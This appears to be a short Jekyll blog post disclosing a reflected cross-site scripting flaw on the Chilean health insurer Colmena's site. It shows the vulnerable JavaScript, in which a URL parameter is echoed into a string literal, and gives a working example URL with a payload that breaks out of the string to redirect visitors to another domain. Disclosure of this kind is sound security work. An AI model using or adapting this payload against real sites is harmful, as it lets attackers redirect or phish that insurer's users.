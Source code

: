 ```yaml
---
layout: post
author: cvxz
title:  "Isapre Colmena XSS"
date:   2020-01-23 18:12:46 -0300
categories: xss
---
```


{% highlight javascript %}
function verificaAcceso(){
    var rut  = null;
    
    rut = '111111111' != 'null' ? '111111111' : null;
    
    if (rut != null){
        document.getElementById("userAfiliado").value  = rut;
        document.getElementById("userAfiliado").disabled = true;
        buscarDocumentos();
    }else {
        document.getElementById("userAfiliado").value  = "";
        document.getElementById("userAfiliado").disabled = false;
    };
};
{% endhighlight %}

URL Ejemplo: [https://www.colmena.cl/CDP/?rutAfiliado=';window.location="https://90.cl";//](https://www.colmena.cl/CDP/?rutAfiliado=';window.location="https://90.cl";//)
